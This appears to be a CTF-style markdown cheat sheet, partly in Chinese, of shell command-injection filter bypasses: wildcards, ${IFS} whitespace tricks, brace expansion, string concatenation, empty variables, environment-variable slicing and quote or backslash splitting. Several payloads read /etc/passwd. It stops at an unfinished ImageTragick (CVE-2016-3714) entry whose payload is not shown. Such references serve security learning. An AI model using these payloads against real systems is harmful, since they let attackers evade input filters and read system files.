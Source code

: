 ## ? and *
- `?` match one character
    - `cat fl?g`
    - `/???/??t /???/p??s??`
- `*` match 多个
    - `cat f*`
    - `cat f?a*`

## 空白绕过

- `${IFS}`
    - `cat${IFS}flag`
    - `ls$IFS-alh`
    - `cat$IFS$2flag`
- `cat</etc/passwd`
- `{cat,/etc/passwd}`
- `X=$'cat\x20/etc/passwd'&&$X`
- ``` IFS=,;`cat<<<uname,-a` ```
    - bash only


## Keyword绕过

- String Concat
    - `A=fl;B=ag;cat $A$B`
- Empty Variable
    - `cat fl${x}ag`
    - `cat tes$(z)t/flag`
    
- Environment Variable
    - `$PATH => "/usr/local/….blablabla”`
        - `${PATH:0:1}   => '/'`
        - `${PATH:1:1}   => 'u'`
        - `${PATH:0:4}   => '/usr'`
    - `${PS2}` 
        - `>`
    - `${PS4}`
        - `+`
- Empty String
    - `cat fl""ag`
    - `cat fl''ag`
        - `cat "fl""ag"`

- 反斜线
    - `c\at fl\ag`

## ImageMagick (ImageTragick)

- CVE-2016-3714
- `mvg`格式包含https处理(使用curl下载)，可以闭合双引号
- payload:
